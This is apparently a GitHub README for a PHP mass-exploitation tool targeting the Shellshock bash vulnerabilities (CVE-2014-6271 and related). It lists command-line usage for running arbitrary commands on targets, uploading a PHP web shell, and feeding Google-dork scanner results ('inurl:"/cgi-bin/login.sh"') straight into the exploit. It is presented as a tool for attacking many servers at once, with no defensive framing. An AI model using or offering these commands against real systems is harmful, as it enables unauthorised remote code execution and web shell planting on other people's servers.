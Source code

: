 - Xpl-SHELLSHOCK-Ch3ck
------
The tool inject a malicious user agent that allows exploring the vulnerabildiade   sheelshock running server-side commands.

```
  # SCRIPT by:     [ I N U R L  -  B R A S I L ] - [ By GoogleINURL ]
  # EXPLOIT NAME:  Xpl SHELLSHOCK Ch3ck Tool - (MASS)/ INURL BRASIL
  # AUTOR:         Cleiton Pinheiro / Nick: googleINURL
  # Email:         inurlbr@gmail.com
  # Blog:          http://blog.inurl.com.br
  # Twitter:       https://twitter.com/googleinurl
  # Fanpage:       https://fb.com/InurlBrasil
  # Pastebin       http://pastebin.com/u/Googleinurl
  # GIT:           https://github.com/googleinurl
  # PSS:           http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:       http://youtube.com/c/INURLBrasil
  # PLUS:          http://google.com/+INURLBrasil
```
  
- DESCRIPTION - VULNERABILITY(SHELLSHOCK)
------
```
- CVE-2014-6271, CVE-2014-6277,
- CVE-2014-6278, CVE-2014-7169,
- CVE-2014-7186, CVE-2014-7187
Is a vulnerability in GNU's bash shell that gives attackers access
to run remote commands on a vulnerable system.
```

- DESCRIPTION - TOOL
------
```
The tool inject a malicious user agent that allows exploring the vulnerabildiade
sheelshock running server-side commands.
``` 

-  Dependencies:
------
```
sudo apt-get install php5 php5-cli php5-curl
```

 - Execute:
------
```
  -t : SET TARGET.
  -f : SET FILE TARGETS.
  -c : SET COMMAND.
  -w : SET UPLOAD SHELL PHP.
  Execute:
  php xplSHELLSHOCK.php -t target -c command
  php xplSHELLSHOCK.php -f targets.txt -c command
  SHELL UPLOAD: php xplSHELLSHOCK.php -t target -c command -w
  OUTPUT VULN: SHELLSHOCK_vull.txt
```

 - EXPLOIT MASS USE SCANNER INURLBR
------
```
./inurlbr.php --dork 'inurl:"/cgi-bin/login.sh"' -s out.txt -q 1,6 --command-vul "php xpl.php -t '_TARGETFULL_' -c pwd"
```
More details about inurlbr scanner: https://github.com/googleinurl/SCANNER-INURLBR
